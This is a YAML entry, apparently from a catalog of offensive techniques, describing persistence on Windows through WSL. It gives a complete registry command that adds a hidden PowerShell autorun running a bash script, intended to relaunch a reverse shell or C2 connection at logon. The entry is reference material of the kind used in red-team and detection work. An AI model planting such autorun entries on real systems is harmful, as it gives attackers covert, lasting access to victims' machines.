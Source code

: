```yaml
---
Name: Windows Subsystem for Linux (WSL)
Description: WSL gives users and developers a seemless way to run Linux environments in the Windows operating system without virtual machines or dual booting.
Author: 'Joe Helle'
Created: 2023-01-29
Usage:
  - Steps: Identify WSL or WSL2 functionality on a Windows 10 or 11 endpoint. This can be achieved by running 'where wsl' in a Command Prompt. 
    Once identified, the command 'wsl' can be ran in either a Command Prompt or PowerShell terminal to load into the default Linux environment. 
    Locate a suitable directory and generate a reverse shell that points to a listener or other C2 server. Backing out to the regular Command 
    Prompt/PowerShell terminal, generate an Autorun registry edit. Start the reverse shell or C2 server listener and wait for the system to reboot.
    Command: reg add “HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run” -v screendoor /t REG_SZ /d '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden -c wsl --exec bash /home/themayor/temp.sh"'
  - Description: Steps to enable persistence via Windows Subsystem for Linux.
  - Category: Persistence
  - Privileges: User
  - Limitations: System must have Windows Subsystem for Linux installed, and the current Windows user must be able to make edits to the Registry.
  - MitreID: TA0003
Resources:
  - Link: https://medium.themayor.tech/windows-persistence-using-wsl2-8f87e319ea56
Acknowledgement:
  - Person: Joe Helle
  - Handle: '@joehelle'
---
```

